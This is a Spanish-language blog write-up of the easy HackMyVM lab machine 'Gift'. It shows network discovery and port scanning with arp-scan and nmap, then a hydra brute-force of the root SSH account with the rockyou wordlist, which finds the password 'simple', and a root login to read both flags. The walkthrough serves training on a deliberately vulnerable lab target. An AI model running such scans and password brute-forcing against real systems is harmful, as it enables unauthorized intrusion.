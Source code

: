 ```yaml
---
title:      "Gift - HackMyVm"
excerpt:    "Comenzamos el blog resolviendo la primera máquina easy subida a la plataforma de HackMyVM. El creador nos indica en la descripción que es very easy, un regalo, lo comprobaremos... 😁"
toc:        true
toc_label:  "Tabla de contenidos"
toc_icon:   "key"
header:
  teaser: /assets/images/Gift/prev.png
  teaser_home_page: true
  icon: /assets/images/HMV.png
classes     : wide
category    : [ Write-ups ]
tags        : [ Linux, HackMyVM ]
---
```


![](/assets/images/Gift/prev.png){: .align-center}

Comenzamos el blog resolviendo la primera máquina easy subida a la plataforma de HackMyVM. El creador nos indica en la descripción que es "very easy", un "regalo", lo comprobaremos... 😁


## Reconocimiento de Puertos

Comenzamos averiguando la IP de la máquina víctima:

`❯ sudo arp-scan -l | grep "PCS"`
~~~
192.168.0.25   08:00:27:c7:3f:a9 PCS Systemtechnik GmbH
~~~

Ahora realizamos el reconocimiento de puertos abiertos:

`❯ sudo nmap -p- -sS --min-rate 5000 --open -Pn -vvv -n 192.168.0.25`
~~~
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
~~~

Tenemos dos puertos abiertos, el puerto 22 (SSH) y el puerto 80 (HTTP).

Realizamos un escaneo más avanzado para obtener más información sobre estos puertos.

`❯ nmap -sCV -p22,80 192.168.0.25`
~~~
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.3 (protocol 2.0)
| ssh-hostkey: 
|   3072 2c:1b:36:27:e5:4c:52:7b:3e:10:94:41:39:ef:b2:95 (RSA)
|   256 93:c1:1e:32:24:0e:34:d9:02:0e:ff:c3:9c:59:9b:dd (ECDSA)
|_  256 81:ab:36:ec:b1:2b:5c:d2:86:55:12:0c:51:00:27:d7 (ED25519)
80/tcp open  http    nginx
|_http-title: Site doesn't have a title (text/html).
~~~

Comprobamos qué contenido muestra el puerto 80:

`❯ curl -L http://192.168.0.25`
~~~
Dont Overthink. Really, Its simple.
   <!-- Trust me -->
~~~

> No parece ir la cosa por ahí, así que según esa pista trataremos de seguir por el otro puerto, SSH


## Fuerza bruta

Aplicaremos fuerza bruta sobre el usuario root por SSH:

`❯ hydra -l root 192.168.0.25 -P /usr/share/wordlists/rockyou.txt ssh`
~~~
[STATUS] 178.00 tries/min, 178 tries in 00:01h, 14344223 to do in 1343:06h, 16 active
 [22][ssh] host: 192.168.0.25   login: root   password: simple
~~~

> BINGO, tenemos acceso vía SSH como root


`ssh root@192.168.0.25`

~~~
IM AN SSH SERVER
gift:~# ls
root.txt  user.txt
~~~

Y ahí tenemos las 2 flags, con las que concluimos esta primera máquina.

